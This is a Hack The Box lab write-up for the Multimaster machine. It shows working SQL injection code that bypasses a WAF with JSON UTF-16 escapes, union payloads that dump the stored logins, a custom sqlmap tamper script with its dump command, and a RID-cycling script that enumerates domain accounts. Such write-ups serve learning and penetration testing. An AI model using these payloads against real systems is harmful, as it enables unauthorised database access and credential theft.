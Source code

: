 ```yaml
---
layout: post
title: "Playing with HTB{ Multimaster }"
date: 2020-09-19 21:00:00 +0300
author: snovvcrash
categories: /ctf
tags: [notes, hackthebox, machine, windows, mssql, sqli, sqlmap, sqlmap-tamper, rid-cycling]
published: true
---
```


Automating an SQL injection with a custom sqlmap tamper script to bypass WAF through JSON UTF-16 value representation. Also some RID brute forcing through MS SQL syntax inside.

<!--cut-->

<p align="right">
	<a href="https://www.hackthebox.eu/home/machines/profile/232"><img src="https://img.shields.io/badge/%e2%98%90-Hack%20The%20Box-8ac53e?style=flat-square" alt="htb-badge.svg" /></a>
	<span class="score-insane">7.7/10</span>
</p>

![banner.png](/assets/images/htb/machines/multimaster/banner.png)
{:.center-image}

![info.png](/assets/images/htb/machines/multimaster/info.png)
{:.center-image}

* TOC
{:toc}

# SQLi

## Manual exploitation

JSON format can understand various encodings [including UTF-16BE](https://stackoverflow.com/questions/11641983/encoding-json-in-utf-16-or-utf-32) like follows: `\uXXXX`. The payload `' OR 1=1-- -`, for example, will turn into `\u0027\u0020\u004f\u0052\u0020\u0031\u003d\u0031\u002d\u002d\u0020\u002d` after being encoded. I will abuse that fact to bypass WAF (that blocked pretty much everything) and script the injection:

```python
#!/usr/bin/env python3

# Usage: rlwrap ./sqli.py

from binascii import hexlify

import requests

URL = 'http://multimaster.megacorp.local/api/getColleagues'
HEADERS = {'Content-Type': 'application/json;charset=utf-8'}

# SELECT id,name,position,email,src FROM users WHERE name LIKE '?%'

while True:
	payload = input('SQLi> ')
	payload = hexlify(payload.encode()).decode()
	payload = [r'\u00'+payload[i:i+2] for i in range(0, len(payload), 2)]
	payload = ''.join(payload)
	data = r'{"name":"' + payload + r'"}'
	proxies = {'http': 'http://127.0.0.1:8080'}
	resp = requests.post(URL, headers=HEADERS, data=data, proxies=proxies)
	try:
		print(resp.json()[0]['name'])
	except:
		pass
```

Using MS SQL `STUFF()` to emulate MySQL `group_concat()`:

```
SQLi> 1337' union select '1',STUFF((SELECT ',' + name FROM master..sysdatabases FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + name FROM Hub_DB..sysobjects WHERE xtype = 'U' FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + Hub_DB..syscolumns.name + ':' + TYPE_NAME(Hub_DB..syscolumns.xtype) FROM Hub_DB..syscolumns, Hub_DB..sysobjects WHERE Hub_DB..syscolumns.id=Hub_DB..sysobjects.id AND Hub_DB..sysobjects.name='Logins' FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + username + ':' + password FROM Hub_DB..Logins FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
```

![manual-exploit-out.png](/assets/images/htb/machines/multimaster/manual-exploit-out.png)
{:.center-image}

## sqlmap

To teach sqlmap how to exploit this vulnerability bypassing WAF I will write a custom tamper that converts my payload to UTF-16BE string:

```python
#!/usr/bin/env python3

# /usr/share/sqlmap/tamper/utf16be.py

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re
from binascii import hexlify

from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
	pass

def tamper(payload, **kwargs):
	retVal = payload

	if payload:
		retVal = hexlify(retVal.encode()).decode()
		retVal = [r'\u00'+retVal[i:i+2] for i in range(0, len(retVal), 2)]
		retVal = ''.join(retVal)

	return retVal
```

Now I can dump all the databases:

```
root@kali:$ sqlmap --batch -u 'http://multimaster.megacorp.local/api/getColleagues' --method POST -H 'Content-Type: application/json;charset=utf-8' --data '{"name":"*"}' --dbms mssql -p name --delay 2 --technique U --union-cols 5 --union-char 1337 --tamper utf16be --dump --proxy http://127.0.0.1:8080
```

![sqlmap-out-1.png](/assets/images/htb/machines/multimaster/sqlmap-out-1.png)
{:.center-image}

![sqlmap-out-2.png](/assets/images/htb/machines/multimaster/sqlmap-out-2.png)
{:.center-image}

![sqlmap-out-3.png](/assets/images/htb/machines/multimaster/sqlmap-out-3.png)
{:.center-image}


And this is how the requests looks like for real (Burp Suite):

![request-in-burp.png](/assets/images/htb/machines/multimaster/request-in-burp.png)
{:.center-image}

However, after all this stuff I was pointed out that there was already a ready-made tamper script doing literally the same thing... Just had to google it a little bit more :expressionless:

Details here: [Bypassing WAFs with JSON Unicode Escape Sequences - TrustFoundry](https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/)

# RID Cycling

Unfortunately, these users were not enough to login at least somewhere, so I will write a script to brute force some RIDs from within the MS SQL Server:

```python
#!/usr/bin/env python3

import time
from binascii import hexlify
from base64 import b64encode, b64decode

import requests
import sid

URL = 'http://multimaster.megacorp.local/api/getColleagues'
HEADERS = {'Content-Type': 'application/json;charset=utf-8'}


class SQL:

	"""
	SELECT id,name,position,email,src FROM users WHERE name LIKE '?%'
	"""

	def inject(self, payload, mode='sname'):
		query = """1337' UNION SELECT '1',(SELECT CAST(N'' AS XML).value('xs:base64Binary(xs:hexBinary(sql:column("bin")))', 'VARCHAR(MAX)') Base64Encoding FROM (SELECT CAST(%s AS VARBINARY(MAX)) AS bin) AS bin_sql_server_temp),'3','4','5'-- -"""

		if mode == 'sname':  # input sid, output username
			func = "SUSER_SNAME(0x%s)"
			sid_mode = sid.SID_STRING
			payload = sid.sid(payload).binary()
			payload = hexlify(payload).decode()
			payload = payload.upper()
		elif mode == 'sid':  # input username, output sid
			func = "SUSER_SID('%s')"
			sid_mode = sid.SID_BASE64

		query = query % func % payload

		data = r'{"name":"' + self.waf_bypass(query) + r'"}'
		proxies = {'http': 'http://127.0.0.1:8080'}
		resp = requests.post(URL, headers=HEADERS, data=data)

		out = resp.json()[0]['name']

		if mode == 'sname':
			return b64decode(out.encode()).decode()
		elif mode == 'sid':
			return sid.sid(out, sid_mode).str()

	def waf_bypass(self, payload):
		payload = hexlify(payload.encode()).decode()
		payload = [r'\u00'+payload[i:i+2] for i in range(0, len(payload), 2)]
		payload = ''.join(payload)
		return payload


# print(SQL().inject('Administrator', mode='sid'))  # S-1-5-21-3167813660-1240564177-918740779-500

sql = SQL()
for rid in range(1000, 2000):
	s = f'S-1-5-21-3167813660-1240564177-918740779-{rid}'
	o = sql.inject(s)
	if o:
		print(f'{s} => {o}')
	time.sleep(2)
```

The script uses an SQL query to encode output of `SUSER_SNAME()` and `SUSER_SID()` to Base64 and then asks the server about the SIDs it knows. The basic (domain) SID is found by quering `SUSER_SID('Administrator')`. For converting between varbinary SID and common string SID I used a 3rd party module [python-sid](https://github.com/sspreitzer/python-sid).

![request-in-burp.png](/assets/images/htb/machines/multimaster/rid-brute-out.png)
{:.center-image}

# Refs

* [MSSQL Injection Cheat Sheet / pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [Simulating group_concat MySQL function in Microsoft SQL Server 2005? - Stack Overflow](https://stackoverflow.com/questions/451415/simulating-group-concat-mysql-function-in-microsoft-sql-server-2005)
* [The Mystery of the SUSER_NAME() and SUSER_SNAME() functions - sqlity.net](https://sqlity.net/en/1795/mystery-suser_name-suser_sname-functions/)
